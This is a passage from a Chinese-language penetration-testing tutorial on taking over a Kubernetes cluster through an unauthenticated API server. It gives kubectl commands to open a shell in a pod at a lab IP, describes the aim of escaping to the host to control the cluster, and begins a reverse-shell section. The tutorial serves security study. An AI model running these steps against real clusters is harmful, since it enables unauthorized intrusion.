 Step 4：执行以下命令接管pod，可以看到下方返回的提示是"pod nginx does not have a host assigned"，这是由于pod未指定host所致

```plain
#格式说明
kubectl -s ip:port  --namespace=default exec -it dockername bash

#执行实例
kubectl -s 192.168.17.144:8080 -n default exec -it nginx /bin/sh
```

[![](assets/1699842580-ffc1d74b04657c18e25a249b1ce4b899.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165014-8363d04a-7313-1.png)  
nginx的yaml文件如下：

```plain
apiVersion: v1                      
kind: Pod                           
metadata:
  name: nginx                       
spec:                               
  containers:
  - image: nginx:alpine             
    name: container-0               
    resources:                      
      limits:
        cpu: 100m
        memory: 200Mi
      requests:
        cpu: 100m
        memory: 200Mi
  imagePullSecrets:                 
  - name: default-secret
```

如果幸运的化我们可以找到恰当的Pod并通过信息收集以及逃逸获取宿主机的权限，之后控制节点以及整个集群~  
**反弹shell**  
A、Web Dashboard  
Step 1：查看当前Namespace确定命名空间有哪些

```plain
kubectl -s 192.168.17.144:8080 get namespaces
```

[![](assets/1699842580-6abb173096a14e24aff97e2f1daa124c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165051-99e97914-7313-1.png)  
Step 2：查看"kubernetes-dashboard"命名空间下pod与service的详细状态
